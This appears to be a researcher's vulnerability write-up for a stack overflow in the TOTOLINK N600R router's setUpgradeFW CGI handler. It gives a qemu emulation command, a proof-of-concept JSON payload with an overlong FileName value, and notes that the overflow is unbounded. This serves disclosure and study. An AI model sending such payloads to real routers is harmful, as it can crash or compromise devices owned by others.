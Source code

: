 # TOTOLINK-N600R-setUpgradeFW-StackOverflow

﻿During my internship at Qi An Xin Tiangong Lab, I discovered a StackOverflow vulnerability in the TOTOLINK-N600R router.

By analyzing the cstecgi.cgi file in the cgi-bin directory, I found that the function at address 0x417050 contains a stack overflow vulnerability.

The stack overflow can be triggered by the FileName key value, which leads to a sprintf overflow.

![image-20241216174228998](https://gitee.com/xyqer/pic/raw/master/202412191551327.png)

## How can we simulate a router

﻿Use the following command to simulate with qemu.

```bash
sudo chroot . ./qemu-mips-static -E CONTENT_LENGTH=500 -E QUERY_STRING="action=no" -L /lib ./web_cste/cgi-bin/cstecgi_patch.cgi < ./poc.json
```

﻿The content of the **poc.json** file is as follows:

```json
{"topicurl":"setUpgradeFW","FileName":"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa","ContentLength":"120"}
```

## Attack result

![image-20241216180144479](https://gitee.com/xyqer/pic/raw/master/202412191551549.png)

![image-20241216180157949](https://gitee.com/xyqer/pic/raw/master/202412191551753.png)

![image-20241216180243753](https://gitee.com/xyqer/pic/raw/master/202412191551344.png)

﻿You can see that the stack length is only 0x1C0, but we overflowed to 0x1D0. If needed, we can overflow more. This overflow does not have a length limit. When using a longer overflow, you only need to modify the FileName key value and the CONTENT_LENGTH size.